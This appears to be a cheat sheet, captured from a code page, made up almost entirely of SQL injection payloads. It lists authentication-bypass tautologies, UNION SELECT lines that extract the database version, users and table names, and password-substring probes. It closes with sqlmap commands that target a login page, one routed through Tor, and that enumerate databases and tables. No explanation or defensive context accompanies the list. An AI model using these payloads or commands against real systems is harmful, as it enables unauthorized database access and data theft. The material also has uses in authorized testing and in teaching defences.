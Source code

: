 ```bash
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 –
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1–
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1′='1–
) or ('1′='1–
' or 1=1 LIMIT 1;#
'or 1=1 or ''='
"or 1=1 or ""="
' or 'a'='a
' or a=a--
' or a=a–
') or ('a'='a
" or "a"="a
") or ("a"="a
') or ('a'='a and hi") or ("a"="a
' or 'one'='one
' or 'one'='one–
' or uid like '%
' or uname like '%
' or userid like '%
' or user like '%
' or username like '%
' or 'x'='x
') or ('x'='x
" or "x"="x
' OR 'x'='x'#;
'=' 'or' and '=' 'or'
' UNION ALL SELECT 1, @@version;#
' UNION ALL SELECT system_user(),user();#
' UNION select table_schema,table_name FROM information_Schema.tables;#
admin' and substring(password/text(),1,1)='7
' and substring(password/text(),1,1)='7
' or 1=1 limit 1 -- -+
'="or'
```
# SQLMAP
```bash
sqlmap -u "http://testsite.com/login.php" 
[eazy scan]
sqlmap -r request.txt 
[eazy scan with request file]
sqlmap -u "http://testsite.com/login.php" --tor --tor-type=SOCKS5 
[using tor]
sqlmap -u "http://testsite.com/login.php" --dbs 
[list all database]
sqlmap -u "http://testsite.com/login.php" -D site_db --tables
```